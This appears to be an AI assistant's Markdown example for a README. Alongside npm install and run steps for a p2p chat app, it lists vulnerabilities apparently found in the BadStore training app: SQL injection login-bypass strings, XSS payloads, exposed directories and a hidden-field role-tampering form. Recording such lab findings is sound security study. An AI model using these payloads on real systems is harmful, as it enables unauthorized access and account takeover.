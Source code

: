 To format your README file, you can use Markdown syntax to make it more readable. Here's an example of how you might structure it:

```markdown
# p2p Chat App

## Installation

To install the required packages, run the following command:

```bash
npm install
```

## Frontend

To run the frontend, use the following command:

```bash
npm run dev
```

## Backend

To start the backend, use the following command:

```bash
npm run start
```

## Bad Store Vulnerabilities

### SQL Injection

#### Login to My Account
```sql
'or 1=1 or' admin' or 1=1# 
```

#### Supplier Login
```sql
admin' or 1=1# 
```

### Cross-site Scripting (XSS)

#### Password Reset
```html
</h2><script>alert(1);</script><h2> 
```

#### Supplier Upload Portal
```html
<img src=x onerror=alert(1);> 
```

#### Guestbook
```html
</h2><script>alert(1);</script><h2> 
```

### Publicly Available Directories

- `robot.txt` file
- `/supplier` directory

### Web Parameter Tampering

```html
?action=admin
<INPUT TYPE="hidden" NAME="role" VALUE="U"><INPUT TYPE="submit"
METHOD="POST" ACTION="http://{your ip address}/cgi-bin/badstore.cgi?action=register"
```

Remember to replace `{your ip address}` with the actual IP address if applicable.

Feel free to adjust the structure and formatting based on your preferences. Markdown allows you to create headings, code blocks, lists, and more to make your README clear and organized.
